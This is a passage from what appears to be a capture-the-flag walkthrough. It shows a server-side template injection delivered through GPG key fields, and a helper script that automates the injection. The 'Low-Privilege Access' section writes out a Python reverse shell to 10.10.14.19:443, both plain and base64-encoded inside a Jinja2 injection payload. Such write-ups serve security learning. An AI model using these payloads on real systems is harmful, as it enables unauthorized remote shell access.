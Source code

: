 Repeating the process with other commands quickly becomes frustrating because many of them do not work. I created a Python script to automate the steps of creating a new keypair with a payload, verifying the signature, displaying the results, and deleting the key afterwards. Note that it requires the `python-gnupg` library, available via pip.

Edit the `cmd` variable with your payload and the `gpg` variable with your GPG directory. 

Run the script with no arguments:
```
python3 process-inject-cmd.py
```

Example using `ls -la`:

<img src="images/foothold/ssti_python_script.png" alt="variables for python script" width="75%" height="75%"> <br>

<img src="images/foothold/ssti_python_script_output_ls.png" alt="output of ls" width="50%" height="50%"> <br>

## Low-Privilege Access
Create a base64-encoded Python reverse shell.
```
base64 -w0 << 'EOF'
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.19",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
EOF
```
<img src="images/lowpriv/b64_rev_shell.png" alt="Base64 reverse shell" width="75%" height="75%"> <br>

The command used to launch the shell will be: `echo *b64 string* | base64 -d | bash`.

In the `process-inject-cmd.py` script, edit the `cmd` variable to include that command. For example:
```
cmd = "{{request.application.__globals__.__builtins__.__import__('os').popen('echo cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTQuMTkiLDQ0MykpO29zLmR1cDIocy5maWxlbm8oKSwwKTsgb3MuZHVwMihzLmZpbGVubygpLDEpOyBvcy5kdXAyKHMuZmlsZW5vKCksMik7cD1zdWJwcm9jZXNzLmNhbGwoWyIvYmluL2Jhc2giLCItaSJdKTsnCg== | base64 -d | bash').read()}}"
```
